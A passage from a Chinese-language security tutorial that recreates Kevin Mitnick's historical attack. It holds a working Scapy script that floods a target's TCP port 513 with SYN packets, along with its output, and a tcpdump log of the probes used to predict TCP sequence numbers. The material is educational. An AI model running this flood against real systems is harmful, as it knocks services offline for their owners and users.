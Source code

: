 ## 用 Scapy 制作 SYN 洪水

用`Scapy`简单的复制一个 TCP SYN 洪水攻击，我们将制作一些 IP 数据包，有递增的 TCP 源端口和不断的 TCP 513 目标端口。

```py
from scapy.all import *

def synFlood(src, tgt):
    for sport in range(1024, 65535):
        IPlayer = IP(src=src, dst=tgt)
        TCPlayer = TCP(sport=sport, dport=513)
        pkt = IPlayer / TCPlayer
        send(pkt)

src = "10.1.1.2"
tgt = "192.168.1.3"
synFlood(src, tgt) 
```

运行攻击发送 TCP SYN 数据包耗尽目标主机资源，填满它的连接队列，基本瘫痪目标发送 TCP 重置包的能力。

```py
mitnick# python synFlood.py
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
<..SNIPPED..> 
```

## 计算 TCP 序列号

现在攻击变得有一些有趣了。随着远程服务器的沉默，米特尼克可以欺骗目标的 TCP 连接。然而，这取决于他发送伪造的 SYN 的能力，Shimomura 机器 TCP 连接后的一个 TCP ACK 数据包。为了完成连接，米特尼克需要需要正确的猜到 TCP ACK 的序列号，因为他无法观察到他，并返回一个正确的猜测的 TCP ACK 序列号。为了正确计算 TCP 序列号，米特尼克从名为`apollo.it.luc.edu`的大学机器发送了一系列的 SYN 数据包，收到 SYN 之后，Shimomura 的机器的终端响应了一个带序列号的 TCP ACK 数据包注意下面隐藏技术细节的序列号：`2022080000, 2022208000, 2022336000, 2022464000`。每个增量相差 128000，这让计算正确的 TCP 序列号更加容易。( 注意，大多数现代的操作系统今天提供更强大的随机 TCP 序列号。)

```py
14:18:27.014050 apollo.it.luc.edu.998 > x-terminal.shell: S
1382726992:1382726992(0) win 4096
14:18:27.174846 x-terminal.shell > apollo.it.luc.edu.998: S
2022080000:2022080000(0) ack 1382726993 win 4096
14:18:27.251840 apollo.it.luc.edu.998 > x-terminal.shell: R
1382726993:1382726993(0) win 0
14:18:27.544069 apollo.it.luc.edu.997 > x-terminal.shell: S
1382726993:1382726993(0) win 4096
14:18:27.714932 x-terminal.shell > apollo.it.luc.edu.997: S
2022208000:2022208000(0) ack 1382726994 win 4096
14:18:27.794456 apollo.it.luc.edu.997 > x-terminal.shell: R
1382726994:1382726994(0) win 0
14:18:28.054114 apollo.it.luc.edu.996 > x-terminal.shell: S
1382726994:1382726994(0) win 4096
14:18:28.224935 x-terminal.shell > apollo.it.luc.edu.996: S
2022336000:2022336000(0) ack 1382726995 win 4096
14:18:28.305578 apollo.it.luc.edu.996 > x-terminal.shell: R
1382726995:1382726995(0) win 0
14:18:28.564333 apollo.it.luc.edu.995 > x-terminal.shell: S
1382726995:1382726995(0) win 4096
14:18:28.734953 x-terminal.shell > apollo.it.luc.edu.995: S
```